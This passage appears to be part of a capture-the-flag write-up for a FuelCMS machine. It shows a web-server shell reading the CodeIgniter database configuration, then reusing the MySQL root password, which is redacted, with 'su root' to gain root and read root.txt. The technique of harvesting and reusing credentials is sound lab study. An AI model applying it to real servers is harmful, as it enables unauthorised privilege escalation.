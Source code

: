 ```console
|
| The $query_builder variables lets you determine whether or not to load
| the query builder class.
*/
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => '<MODIFICADO>',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
        @include(TESTER_PATH.'config/tester_database'.EXT);
}
www-data@ubuntu:/var/www/html/fuel/application/config$
```

Bingo !

```console
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: <MODIFICADO>

root@ubuntu:/var/www/html/fuel/application/config# ls
ls
asset.php          editors.php        migration.php        profiler.php
autoload.php       environments.php   mimes.php            redirects.php
config.php         foreign_chars.php  model.php            routes.php
constants.php      google.php         MY_config.php        smileys.php
custom_fields.php  hooks.php          MY_fuel_layouts.php  social.php
database.php       index.html         MY_fuel_modules.php  states.php
doctypes.php       memcached.php      MY_fuel.php          user_agents.php
root@ubuntu:/var/www/html/fuel/application/config# cd
cd
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
<MODIFICADO>
root@ubuntu:~#
```
